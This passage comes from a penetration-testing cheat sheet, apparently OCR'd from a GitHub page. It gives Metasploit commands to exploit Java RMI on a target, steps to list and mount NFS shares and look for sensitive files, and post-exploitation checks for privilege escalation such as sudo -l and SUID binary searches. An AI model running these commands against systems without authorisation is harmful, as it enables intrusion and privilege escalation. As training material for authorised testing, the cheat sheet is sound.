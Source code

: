 2. **Exploit Java RMI**:
    
    ```bash
    msfconsole
    use exploit/multi/misc/java_rmi_server
    set RHOSTS $TARGET
    run
    ```
    

### 4.13 NFS Exploitation (Port 2049) (NOT COMPLETE)

1. **List NFS Exports**:
    
    ```bash
    showmount -e $TARGET
    ```
    
2. **Mount NFS Share**:
    
    ```bash
    mkdir /tmp/nfs
    mount -t nfs $TARGET:/path/to/share /tmp/nfs
    ```
    
3. **Check for Sensitive Files**:
    
    ```bash
    ls -la /tmp/nfs
    ```
    

## 5. Post-Exploitation Techniques 

Once you've gained access to the system, perform the following:

### 5.1 Privilege Escalation

1. **Check Current User and Privileges**:
    
    ```bash
    id
    sudo -l
    ```
    
2. **Search for SUID Binaries**:
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    
3. **Check for World-Writable Files**:
    
    ```bash
    find / -writable -type f 2>/dev/null
    ```
    
